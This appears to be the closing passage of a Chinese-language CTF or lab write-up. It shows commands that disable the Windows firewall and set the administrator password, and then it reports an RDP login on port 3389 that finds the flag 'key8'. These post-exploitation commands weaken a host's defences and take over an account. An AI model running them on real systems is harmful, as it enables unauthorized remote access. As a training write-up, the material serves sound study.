 
然后关闭防火墙并添加一个新的RDP用户
```
netsh firewall set opmode disable
net user administrator 123Abc.
```
![upload successful](./images/pasted-925.png)

成功3389进入系统，回收站的名字为key8，结束
![upload successful](./images/pasted-926.png)
